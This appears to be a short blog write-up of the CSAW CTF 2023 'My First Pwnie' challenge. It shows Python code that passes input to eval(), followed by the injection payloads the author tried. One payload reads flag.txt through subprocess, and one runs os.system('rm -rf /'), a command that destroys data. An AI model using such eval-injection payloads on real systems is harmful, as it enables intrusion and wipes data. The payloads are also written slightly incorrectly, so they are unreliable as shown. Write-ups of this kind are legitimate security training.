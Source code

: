 ```yaml
---
layout: post
title: CSAW CTF 2023
date: 2023-09-17 13:08:20 +0530
#categories: 
permalink: "/csaw-2023"
---
```


### Pwn 

#### My First Pwnie

```python
#!/usr/bin/env python3

# Pwn mostly builds on top of rev.
# While rev is more about understanding how a program works, pwn is more about figuring out how to exploit a program to reach the holy grail: Arbitrary Code Execution
#
# If you can execute arbitrary code on a system, that system might as well be yours...because you can do whatever you want with it! (this is the namesake of "pwn".....if you pwn a system, you own the system)
# Of course, that comes with the limitations of the environment you are executing code in...are you a restricted user, or a super admin?
# Sometimes you can make yourself a super admin starting from being a restricted user.....but we're not gonna do that right now.
#
# For now, I want you to figure out how to execute arbitrary commands on the server running the following code.
#
# To prove to me that you can excute whatever commands you want on the server, you'll need to get the contents of `/flag.txt`

try:
  response = eval(input("What's the password? "))
  print(f"You entered `{response}`")
  if response == "password":
    print("Yay! Correct! Congrats!")
    quit()
except:
  pass

print("Nay, that's not it.")

```
I tried different commands such as: 

```python
import('subprocess').getoutput('cat flag.txt')
import('os').system('rm -rf /')
```
Then finally connected to server using Netcat

![Pwnie Solution](/assets/csaw_first_pwnie.png)

Flag: ```
🚩 csawctf{neigh______}
```